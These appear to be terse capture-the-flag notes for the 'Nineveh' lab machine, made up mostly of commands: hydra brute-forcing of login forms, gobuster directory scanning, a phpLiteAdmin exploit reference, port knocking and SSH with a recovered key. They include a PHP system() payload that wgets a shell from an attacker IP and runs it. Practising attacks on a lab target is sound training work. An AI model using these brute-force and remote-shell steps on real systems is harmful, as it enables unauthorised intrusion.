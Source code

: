 ```bash
amrois, found in the login.php src.

login with weak password, no result.

brute force.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.30.249 http-post-form "/department/login.php:username="^USER^"&password=^PASS^:Invalid Password" -V


port 443
dir scan, /db  /secure_notes /server_status
gobuster dir -k -u https://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster443.txt

phpliteadmin 1.9

/secure_notes/nineveh.png
hide info in png file.  contains a private key from amrois.
strings nineveh.png

exploit:
rce  https://www.exploit-db.com/exploits/24044 https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC


hydra brute force.  
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.35.170 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -V

passowrd, password123

<?php system("wget http://10.10.14.62/phpshell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

LFI check the fime  or  in the shell of www-data
/etc/knockd.conf 

knock 571 290 911

ssh -i key amrois@$tip

## privesc


```







# Enumeration
